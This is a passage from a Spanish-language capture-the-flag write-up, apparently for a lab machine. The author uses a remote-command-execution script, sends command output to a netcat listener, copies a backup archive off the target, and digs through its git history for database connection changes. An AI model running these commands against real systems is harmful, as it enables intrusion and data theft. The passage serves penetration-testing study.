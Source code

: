 ```sh
> ./rce2.sh whoami | nc 10.10.14.8 443
```
```sh
> nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.14.8] 34802
www-data
```
Me intento lanzar varías reverse pero no funcionan. Inspeccionando un poco bastante la máquina objetivo se puede encontrar esto:
```sh
> ./rce2.sh "ls -l /opt"
total 616
-rw-r--r-- 1 root root 627851 Jul 20  2021 source-files-backup.zip

> ./rce2.sh "cat /opt/source-files-backup.zip" > backup.zip
> ls backup.zip
-rw-r--r-- 1 root root 614K jun 28 18:04 backup.zip

# Para comprobar la integridad del archivo le haré un md5sum:
> md5sum backup.zip
7fd8d13ab49b661b4d484f809a217810  backup.zip
> ./rce2.sh "md5sum /opt/source-files-backup.zip"
7fd8d13ab49b661b4d484f809a217810  /opt/source-files-backup.zip

# También podríamos haber mandado el archivo al directorio web para tener acceso desde navegador:
> ./rce2.sh pwd
/var/www/html
> ./rce2.sh "mv /opt/source-files-backup.zip /var/www/html"
# Podríamos acceder fácil al .zip desde el navegador para descargarlo.
```
Ya tenemos el backup.zip en nuestra máquina local:
```sh
> mkdir backup
> unzip backup.zip
# Encontramos los recursos que ya teníamos de la web. Pero además hay un directorio .git:
```
Siempre que veas un recurso .git puedes hacer esto:
```sh
> git log  # Te muestra los diferenes logs del proyecto

commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

> git show 16de2698b5b122c93461298eab730d00273bd83e
# Te muestra algo de contenido y las variaciones acontecidas.

commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

diff --git a/db_conn.php b/db_conn.php
index f1c9217..5397ffa 100644
--- a/db_conn.php
+++ b/db_conn.php
```